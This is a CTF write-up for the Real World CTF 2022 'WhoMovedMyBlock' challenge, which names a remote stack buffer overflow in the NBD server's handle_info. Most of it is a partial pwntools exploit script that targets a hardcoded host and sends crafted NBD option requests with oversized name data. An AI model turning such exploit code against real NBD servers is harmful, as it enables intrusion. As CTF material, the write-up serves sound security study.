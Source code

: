 writeup:

https://github.com/perfectblue/ctf-writeups/tree/master/2022/realworld-ctf-2022/untrustZone

# WhoMovedMyBlock

Description：

On Linux, network block device (NBD) is a network protocol that can be used to forward a block device (typically a hard disk or partition) from one machine to a second machine. As an example, a local machine can access a hard disk drive that is attached to another computer.

https://github.com/NetworkBlockDevice/nbd

writeup：

remote stack-based buffer overflow in handle_info 

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwn import *

HOST = "47.242.113.232" #"localhost"
PORT = 49240 #10809

INIT_PASSWD = b"NBDMAGIC"

NBD_FLAG_FIXED_NEWSTYLE = 1<<0
NBD_FLAG_NO_ZEROES      = 1<<1

opts_magic = 0x49484156454F5054
rep_magic  = 0x3e889045565a9

NBD_OPT_GO = 7
NBD_REP_FLAG_ERROR = 1<<31
NBD_REP_ERR_UNSUP  = 1|NBD_REP_FLAG_ERROR
NBD_REP_ERR_POLICY = 2|NBD_REP_FLAG_ERROR

context.log_level = "error"

def parse_response(io):
  magic = u64(io.recv(8), endian="big")
  opt = u32(io.recv(4), endian="big")
  reply_type = u32(io.recv(4), endian="big")
  datasize = u32(io.recv(4), endian="big")
  data = io.recv(datasize)

def send_request(opt, datasize, namelen, name, io):
  # first send the header
  header = p64(opts_magic, endian="big") + \
      p32(opt, endian="big") + p32(datasize, endian="big")

  #input("## attach ##")
  io.send(header)

  io.send(p32(datasize, endian="big"))
  io.send(p32(namelen, endian="big"))

  parse_response(io)

  io.send(name)

  io.send(b"D" * (namelen-4))
  #io.send(b"D" * namelen)

```